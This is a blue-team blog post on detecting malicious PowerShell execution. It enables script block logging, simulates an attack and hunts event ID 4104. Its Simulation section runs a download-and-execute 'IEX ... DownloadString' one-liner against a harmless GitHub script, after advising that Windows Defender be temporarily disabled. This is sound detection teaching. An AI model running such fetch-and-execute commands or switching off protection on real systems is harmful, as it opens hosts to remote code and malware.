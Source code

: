 ```yaml
---
title: Detecting Malicious Script Execution in PowerShell
date: 2024-05-23 07:00:00 -0600
categories: [blueteam, simulation]
tags: [hunting, difficulty:low, dev]
image:
  path: https://github.com/lr2t9iz/lr2t9iz.github.io/assets/46981088/3d7c8a9b-d0d6-4a44-9078-b62956a3ac16
---
```


PowerShell, a powerful Windows command-line shell and scripting language, is often abused by adversaries to execute malicious scripts and commands, one of the most commonly used techniques according to [redcanary](https://redcanary.com/threat-detection-report/techniques/). 

We will explore how attackers leverage PowerShell's capabilities to carry out their intrusions, such as those seen in recent REF4578 intrusions revealed by [Elastic Security Labs](https://www.elastic.co/security-labs/invisible-miners-unveiling-ghostengine) and [Antiy](https://www.antiy.com/response/HideShoveling.html). 
  
![image](https://github.com/lr2t9iz/lr2t9iz.github.io/assets/46981088/260b397b-dcba-45d8-bd7b-41347601c406){: .w-75 }
_[@elasticseclabs](https://x.com/elasticseclabs/status/1792932108073132451)_

## Execution in PowerShell
[T1059.001: PowerShell](https://attack.mitre.org/techniques/T1059/001/), This technique is post-exploitation, meaning that the attacker already has access to a machine and will execute their scripts, similar to the approach used in GhostEngine mining attacks.

![image](https://www.elastic.co/security-labs/_next/image?url=%2Fsecurity-labs%2Fassets%2Fimages%2Finvisible-miners-unveiling-ghostengine%2Fimage10.png&w=1920&q=100){: .w-75 }
_Source: Elastic Security Labs **Download and Excecute a PowerShell Script**_

## Detection
Enabling PowerShell logging is crucial for effective detection of malicious activities. By default, Windows has PowerShell logging disabled, which can hinder our ability to monitor and respond to threats. By configuring detailed logging, we can capture information about every script block, module, and command executed in PowerShell.
- Open a PowerShell as **Administrator** and run the following commands
```powershell
$basePath = "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"
if (-not (Test-Path $basePath)) { $null = New-Item $basePath -Force }
Set-ItemProperty $basePath -Name EnableScriptBlockLogging -Value "1"
```

## Simulation
For the simulation, we will execute a command line in Cmd to observe how it is logged and detected in lab host. To ensure the commands are executed without interference, we will temporarily disable Windows Defender's real-time protection for testing purposes. This will help us understand the logging process and identify key indicators of potentially malicious activity.
```batch
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/lr2t9iz/PowershellScriptsHub/main/hello_world.ps1');"
```
- Output
![image](https://github.com/lr2t9iz/lr2t9iz.github.io/assets/46981088/9ae2ba5a-4234-4957-a83f-51cdaf6718c9)

## Hunting
To hunt for malicious script execution, we will use the following PowerShell command to query the event logs.
```powershell
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" `
-FilterXPath '*[System[EventID=4104]]' `
| Where-Object {$_.ToXml().Contains("hello_world")} | fl
```
- Result
![image](https://github.com/lr2t9iz/lr2t9iz.github.io/assets/46981088/047213b9-e246-4ad8-9e58-a9db21f0173b)
